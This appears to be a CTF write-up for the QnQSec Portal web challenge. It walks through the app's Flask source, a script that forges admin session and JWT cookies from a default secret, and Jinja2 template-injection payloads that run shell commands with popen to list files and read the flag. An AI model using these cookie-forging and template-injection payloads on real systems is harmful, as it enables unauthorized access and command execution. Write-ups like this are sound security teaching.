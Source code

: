 +++
date = '2025-10-27T09:15:29+07:00'
title = 'QnQSec CTF - QnQSec Portal Writeup'
tags = ['QnQSec CTF 2025', 'CTFs']
description = 'The reflection is mine, but the soul feels borrowed'
draft = false

[cover]
  image = '/images/posts/qnqsec-cover.jpg'
  alt = 'QnQSec CTF - QnQSec Portal'
  caption = 'QnQSec CTF - QnQSec Portal'
  relative = false
+++

> **Room / Challenge:** QnQSec Portal (Web)

---

## Metadata

-   **Author:** `jameskaois`
-   **CTF:** QnQSec CTF 2025
-   **Challenge:** QnQSec Portal (web)
-   **Target / URL:** `http://161.97.155.116:5001/`
-   **Points:** `50`
-   **Date:** `20-10-2025`

---

## Goal

We have to get the flag by get access as admin.

## My Solution

First we have to examine the [app.py](./app.py). There are some noticable routes:

/login route:

```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')

    username = (request.form.get('username') or '').strip()
    password = request.form.get('password') or ''
    if not username or not password:
        flash('Missing username or password', 'error')
        return render_template('login.html')

    db = get_db()
    row = db.execute(
        'select username, password from users where username = lower(?) and password = ?',
        (username, md5(password.encode()).hexdigest())
    ).fetchone()

    if row:
        session['user'] = username.title()


        role = "admin" if username.lower() == "flag" else "user"
        token = generate_jwt(session['user'],role,app.config['JWT_EXPIRES_MIN'],app.config['JWT_SECRET'])

        resp = make_response(redirect(url_for('account')))
        resp.set_cookie("admin_jwt", token, httponly=False, samesite="Lax")
        return resp

    flash('Invalid username or password', 'error')
    return render_template('login.html')

```

/account route:

```python
@app.route('/account')
def account():
    user = session.get('user')
    if not user:
        return redirect(url_for('login'))
    if user == 'Flag':
        return render_template('account.html', user=user, is_admin=True)
    return render_template('account.html', user=user, is_admin=False)
```

If we try sign up an account and login we can see that there are 2 authentication and authorization keys `admin_jwt` and `session` in cookies:

![Guide image](/images/posts/qnqsec-portal-1.png)

and this is the UI:
![Guide image](/images/posts/qnqsec-portal-2.png)

Initially, I thought that I will brute-force the password of the `flag` account since `flag` is the admin:

```python
def init_db():
    with sqlite3.connect(DB_PATH, timeout=10) as db:
        db.execute('PRAGMA journal_mode=WAL')
        db.execute('drop table if exists users')
        db.execute('create table users(username text primary key, password text not null)')

        db.execute('insert into users values("flag", "401b0e20e4ccf7a8df254eac81e269a0")')
        db.commit()
```

and the password is hash by this algorithm:

```python
md5(password.encode()).hexdigest()
```

However I have tried using several common passwords list, all are incorrect so I think it is a dead end.

After some time examining the code, I found the admin_jwt can be encoded correctly for the back-end to verify it:

```python
token = generate_jwt(session['user'],role,app.config['JWT_EXPIRES_MIN'],app.config['JWT_SECRET'])
```

The `JWT_SECRET` is implemented by this:

```python
base = os.environ.get("Q_SECRET", "qnqsec-default")
app.config['JWT_SECRET'] = hashlib.sha256(("jwtpepper:" + base).encode()).hexdigest()
```

If the `Q_SECRET` is undefined then it takes `qnqsec-default`, I have checked my created `JWT_SECRET` with the `admin_jwt` value from server it said correct in [jwt.io](https://jwt.io):

![Guide image](/images/posts/qnqsec-portal-3.png)

However the `/account` page validates the `session` value it also use the `base` value as `SECRET_KEY`:

```python
app.config['SECRET_KEY'] = hashlib.sha1(("pepper:" + base).encode()).hexdigest()
```

Therefore, we can easily implement our own session value and gain access as `flag`, which means `admin`. Here is our strategy we will create a JWT with this payload:

```python
{
    "sub": "Flag",
    "role": "admin",
}
```

Then create a `session` with this payload:

```python
{"user": "Flag"}
```

Here is the code to create JWT and session:

```python
from flask import Flask
from flask.sessions import SecureCookieSessionInterface
import hashlib
import jwt

app = Flask(__name__)
app.secret_key = hashlib.sha1(("pepper:" + "qnqsec-default").encode()).hexdigest()


serializer = SecureCookieSessionInterface().get_signing_serializer(app)

session_data = {"user": "Flag"}

session_cookie_value = serializer.dumps(session_data)
print("session cookie value:\n", session_cookie_value)

secret = hashlib.sha256(b"jwtpepper:qnqsec-default").hexdigest()
payload = {
    "sub": "Flag",
    "role": "admin",
    "iat": 1760794390,
    "exp": 9999999999
}
headers = {"typ":"JWT", "alg":"HS256"}
token = jwt.encode(payload, secret, algorithm="HS256", headers=headers)
if isinstance(token, bytes):
    token = token.decode()

print("admin_jwt token:\n", token)
```

Use the created JWT and session to change value in browser and go to `/account`:

![Guide image](/images/posts/qnqsec-portal-4.png)

Visit `/admin`:

![Guide image](/images/posts/qnqsec-portal-5.png)

Server-side template injection now takes place, we can try `{{ 7*7 }}` and got `49`. We can use template injection here:

```
{{ cycler.__init__.__globals__.os.popen('ls -la').read() }}
```

Result:

```bash
total 4608 drwxr-xr-x 1 ctf ctf 4096 Oct 20 02:31 . drwxr-xr-x 1 root root 4096 Oct 17 10:45 .. -rw-r--r-- 1 ctf ctf 473 Oct 17 01:18 Dockerfile -rw-r--r-- 1 ctf ctf 842 Oct 16 23:46 README.md drwxr-xr-x 1 ctf ctf 4096 Oct 17 10:45 __pycache__ -rw-r--r-- 1 ctf ctf 1637 Oct 16 23:46 admin_routes.py -rw-r--r-- 1 ctf ctf 0 Oct 18 13:54 ale -rw-r--r-- 1 ctf ctf 4295 Oct 16 23:46 app.py -rw-r--r-- 1 ctf ctf 0 Oct 17 18:32 awikwok -rw-r--r-- 1 ctf ctf 0 Oct 18 05:33 awokawok -rw-r--r-- 1 ctf ctf 105 Oct 16 23:49 compose.yml -rw-r--r-- 1 ctf ctf 17359 Oct 17 19:19 index.html -rw-r--r-- 1 ctf ctf 0 Oct 18 05:33 jejak -rw-r--r-- 1 ctf ctf 0 Oct 18 05:33 ninggalin -rw-r--r-- 1 ctf ctf 12 Oct 16 23:46 requirements.txt drwxr-xr-x 1 ctf ctf 4096 Oct 17 13:49 secret drwxr-xr-x 1 ctf ctf 4096 Oct 16 23:46 static drwxr-xr-x 1 ctf ctf 4096 Oct 16 23:46 templates -rw-r--r-- 1 ctf ctf 4636672 Oct 20 02:11 users.db
```

Next:

```
{{ cycler.__init__.__globals__.os.popen('ls -la ./secret').read() }}
```

Result:

```bash
total 16 drwxr-xr-x 1 ctf ctf 4096 Oct 17 13:49 . drwxr-xr-x 1 ctf ctf 4096 Oct 20 02:31 .. -rw-r--r-- 1 ctf ctf 40 Oct 16 23:46 flag.txt
```

Get the flag:

```
{{ cycler.__init__.__globals__.os.popen('cat ./secret/flag.txt').read() }}
```

Flag: `QnQsec{b4efafeb4bd43c404e425ea6d664a0f6}`
